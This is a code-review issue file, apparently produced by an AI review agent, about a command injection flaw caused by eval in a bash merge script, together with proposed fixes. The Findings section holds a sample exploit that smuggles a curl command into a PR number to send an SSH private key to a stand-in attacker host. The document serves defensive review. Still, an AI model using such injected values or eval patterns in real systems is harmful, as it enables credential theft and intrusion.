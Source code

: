 ```yaml
---
status: completed
priority: p0
issue_id: "001"
tags: [code-review, security, pr-101, command-injection]
dependencies: []
completed_date: 2025-10-16
---
```


# Command Injection via eval in workflow-merge.sh

## Problem Statement

The `execute_command()` function in `scripts/workflow-merge.sh` uses `eval` to execute shell commands, creating a critical command injection vulnerability. User-supplied PR numbers and other inputs flow through this function without sanitization, allowing arbitrary command execution.

**CVSS Score:** 9.8 (Critical)
**CWE:** CWE-78 (OS Command Injection)

## Findings

- Discovered during comprehensive code review by security-sentinel agent
- Location: `scripts/workflow-merge.sh:146`
- Affects all command executions in the script (15+ call sites)
- Attack vector: Malicious PR number or branch name can inject shell commands
- Example exploit: `/merge "123; curl evil.com/exfil?data=$(cat ~/.ssh/id_rsa)"`

### Vulnerable Code
```bash
execute_command() {
    if [[ "$DRY_RUN" == "true" ]]; then
        echo "  [DRY RUN] Would execute: $1"
        return 0
    else
        if [[ "$VERBOSE" == "true" ]]; then
            echo "  Executing: $1"
        fi
        eval "$1"  # ← CRITICAL VULNERABILITY
    fi
}
```

### Impact Analysis
- **Confidentiality:** HIGH - Can exfiltrate sensitive data (SSH keys, environment variables)
- **Integrity:** HIGH - Can modify or delete files, corrupt repository
- **Availability:** HIGH - Can terminate processes, fill disk space
- **Scope:** System-wide - Executes with user's full privileges

## Proposed Solutions

### Option 1: Direct Execution (Recommended)
- **Pros**: Eliminates eval entirely, most secure approach, aligns with bash best practices
- **Cons**: Requires refactoring all 15+ call sites
- **Effort**: Medium (2-3 hours)
- **Risk**: Low - Well-tested pattern

**Implementation:**
```bash
# SECURE APPROACH: Direct execution without eval
execute_command() {
    if [[ "$DRY_RUN" == "true" ]]; then
        printf '  [DRY RUN] Would execute: %q' "$@"; echo
        return 0
    fi
    if [[ "$VERBOSE" == "true" ]]; then
        printf '  Executing: %q' "$@"; echo
    fi
    "$@"  # Execute arguments directly
}

# Update all callers to use array format:
# Before: execute_command "gh pr merge \"$PR_NUMBER\" --merge"
# After:  execute_command gh pr merge "$PR_NUMBER" --merge
```

### Option 2: Command Allowlist (Alternative)
- **Pros**: Keeps eval for compatibility, adds validation layer
- **Cons**: Incomplete protection, still risky, harder to maintain
- **Effort**: Small (1 hour)
- **Risk**: Medium - Can be bypassed if allowlist incomplete

**Implementation:**
```bash
execute_command() {
    local cmd="${1%% *}"
    case "$cmd" in
        git|gh|cd) ;;  # Allowed commands only
        *) echo "ERROR: Unauthorized command: $cmd" >&2; return 1 ;;
    esac

    if [[ "$DRY_RUN" != "true" ]]; then
        eval "$1"
    fi
}
```

## Recommended Action

**Option 1: Direct Execution** - This is the only secure approach that eliminates the vulnerability entirely.

### Implementation Steps
1. Refactor `execute_command()` to use `"$@"` instead of `eval "$1"`
2. Update all call sites (approximately 15 locations):
   - Line 418: Merge execution
   - Line 427: Branch merge with strategy
   - Line 512: Directory change
   - Line 521: Git fetch
   - Line 524: Git pull
   - Line 532: Checkout main
   - Line 542: Worktree removal
   - Line 545: Worktree prune
3. Test all execution paths in both dry-run and actual execution modes
4. Verify no shell metacharacter expansion issues

## Technical Details

**Affected Files:**
- `scripts/workflow-merge.sh` (primary)
- All callers of `execute_command()`

**Related Components:**
- PR merge workflow
- Worktree cleanup logic
- Git operations

**Database Changes:** None

## Resources

- Code review PR: https://github.com/carmandale/agent-os/pull/101
- Security review findings: See comprehensive security audit report
- Related security issues: Command injection (CWE-78), Input validation (CWE-20)
- OWASP reference: https://owasp.org/www-community/attacks/Command_Injection

## Acceptance Criteria

- [ ] `execute_command()` function refactored to use direct execution (`"$@"`)
- [ ] All 15+ call sites updated to array-based argument passing
- [ ] No use of `eval` anywhere in the script
- [ ] Dry-run mode works correctly with new implementation
- [ ] Verbose mode displays commands without exposing to injection
- [ ] All tests pass (manual execution of merge workflow)
- [ ] Code reviewed for any remaining eval usage
- [ ] Security review confirms vulnerability resolved

## Work Log

### 2025-10-15 - Code Review Discovery
**By:** Claude Code Review System (security-sentinel agent)
**Actions:**
- Discovered during comprehensive multi-agent code review of PR #101
- Analyzed by security-sentinel, pattern-recognition-specialist, and architecture-strategist agents
- Categorized as P0 blocking issue for merge approval
- Created todo for tracking and resolution

**Learnings:**
- eval usage is a common source of command injection vulnerabilities
- Agent OS scripts should follow secure bash patterns
- Input validation alone is insufficient; eliminate eval entirely
- Direct execution with proper quoting is the secure alternative

## Notes

**BLOCKING:** This issue MUST be resolved before PR #101 can be merged to main.

**Context:** Part of comprehensive security review that identified 3 critical, 7 high, 8 medium, and 6 low severity issues in the `/merge` command implementation.

**Related Findings:**
- Issue #002: Insufficient input validation on PR numbers (P0)
- Issue #003: Path traversal in worktree operations (P0)

Source: Code review performed on 2025-10-15
Review command: `/compounding-engineering:review PR #101`
